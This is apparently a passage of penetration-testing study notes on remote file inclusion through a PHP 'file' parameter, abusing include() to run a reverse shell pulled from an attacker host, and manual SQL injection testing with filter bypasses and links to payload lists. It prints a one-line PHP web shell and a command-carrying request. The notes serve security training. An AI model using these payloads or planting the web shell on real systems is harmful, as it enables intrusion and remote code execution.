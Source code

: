   **.php?file=remote location \(ippsec=Poison\)**

* Create a reverse shell through a python HTTP server on port 80.
* Attempt to read a file hosted on the attacker box through the URL.

  ```text
  ...[file].php?file=http://[attacker IP]/[remote file].[extension]
  ```

  **Identify any PHP 'include' Functions**

* The 'include\(\)' function in PHP code is used to open files based on user input / variables.
* This function is commonly used insecurely in that if input is not sanitized appropriately, a user can force the web browser to automatically execute any PHP code that they point the web browser to on the target box.
* If we can upload a PHP reverse shell to any location on the target box, we can abuse the 'include\(\)' function LFI to execute the reverse shell back to our attacker machine.
  * A simple PHP command injection file that we can create allows us to input whatever command we want into an HTTP request to have it executed as long as another part of the HTTP request is navigating to this PHP file on the web server box and abusing the 'include' functionality.

    ```text
    <?php echo system ($_REQUEST['neogeo']); ?>
    ```

    ```text
    GET /?neogeo=[cmd]
    ```

  * A reliable PHP reverse shell can be found here [PHP Reverse Shell](https://github.com/neogeo56/OSCP/blob/master/Shells/php-reverse-shell.php).  Note that you have to adjust the IP and port variables in the shell before executing.

## Manual SQL Injection Testing

* Syntax varies between DB types - cheat sheets available here:
  * [General](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
  * [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/SQL-Injection)
  * Bypass: 
    * %00: Null-byte
    * Comment:
      * /_\[text\]_/
      * * \`
    * +: addition, concatenate \(or space in url\) substitutes for AND
    * \|\|: \(double pipe\) substitutes for OR.
    * %: wildcard attribute indicator
* Identify areas in the application that could be inputs for SQLi in the URL \(id=1\). 
* Proxy through ZAP to try [SQLi Test Payloads](https://github.com/neogeo56/OSCP/blob/master/Web/SQLi_Tests_Plaintext) to see instances where the payload doesn't result in an error on the page \(the website is processing the SQLi payload correctly to result in TRUE condition\). 
  * Alternatively, you can try some simple tests like adding an apostraphe to fields to see if they error out.  If they do, then they are likely vulnerable to some type of SQLi.  General bypass tests for login forms are below:
